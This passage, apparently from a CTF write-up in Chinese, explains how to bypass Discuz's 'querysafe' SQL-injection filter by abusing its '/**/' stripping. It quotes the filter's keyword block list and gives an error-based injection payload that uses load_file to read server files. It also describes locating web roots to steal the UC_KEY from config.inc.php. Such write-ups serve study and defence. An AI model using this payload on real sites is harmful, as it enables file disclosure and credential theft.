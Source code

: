 ```
				if (strpos($clean, $note) !== false)
					return '-4';
			}
		}
```

然后config中相关的配置为
```
$_config['security']['querysafe']['dfunction']['0'] = 'load_file';
$_config['security']['querysafe']['dfunction']['1'] = 'hex';
$_config['security']['querysafe']['dfunction']['2'] = 'substring';
$_config['security']['querysafe']['dfunction']['3'] = 'if';
$_config['security']['querysafe']['dfunction']['4'] = 'ord';
$_config['security']['querysafe']['dfunction']['5'] = 'char';
$_config['security']['querysafe']['daction']['0'] = '@';
$_config['security']['querysafe']['daction']['1'] = 'intooutfile';
$_config['security']['querysafe']['daction']['2'] = 'intodumpfile';
$_config['security']['querysafe']['daction']['3'] = 'unionselect';
$_config['security']['querysafe']['daction']['4'] = '(select';
$_config['security']['querysafe']['daction']['5'] = 'unionall';
$_config['security']['querysafe']['daction']['6'] = 'uniondistinct';
$_config['security']['querysafe']['dnote']['0'] = '/*';
$_config['security']['querysafe']['dnote']['1'] = '*/';
$_config['security']['querysafe']['dnote']['2'] = '#';
$_config['security']['querysafe']['dnote']['3'] = '--';
$_config['security']['querysafe']['dnote']['4'] = '"';
```

这道题目特殊的地方在于，他开启了`afullnote`

```
	if (self::$config['afullnote']) {
		$clean = str_replace('/**/', '', $clean);
	}
```

由于`/**/`被替换为空，所以我们可以直接用前面的逻辑把select加入到这中间，之后被替换为空，就可以绕过这里的判断。

当我们得到一个报错注入之后，我们尝试读取文件内容，发现由于mysql是`5.5.29`，所以我们可以直接读取服务器上的任意文件。

```
$code = 'time='.time().'&action=renameuser&uid=1&newusername=ddog\',name=(\'a\' or updatexml(1,concat(0x7e,(/*!00000select*/ /*!00000load_file*/(\'c:/windows/win.ini\') limit 1)),0)),title=\'a';

```

思路走到这里出现了断层，因为我们没办法知道web路径在哪里，所以我们没办法直接读到web文件，这里我僵持了很久，最后还是因为第一个人做出题目后密码是弱密码，我直接查出来进了后台。

在事后回溯的过程中，发现还是有办法的，虽然说对于windows来说，web的路径很灵活，但是实际上对于集成环境来说，一般都安装在c盘下，而且一般人也不会去动服务端的路径。常见的windows集成环境主要有phpstudy和wamp，这两个路径分别为

```
- /wamp64/www/
- /phpstudy_pro/WWW/
```

找到相应的路径之后，我们可以读取`\uc_server\data\config.inc.php`得到uc server的`UC_KEY`.


[1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qg4p08znypnncy3fh1zvpzus/image.png
[2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qbubmlozli0mtqs5doc26k29/image.png
[3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rtc48lyjaannmn5wnovwd9b2/image.png
[4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/24tv518rdz5ders59zju3x2c/image.png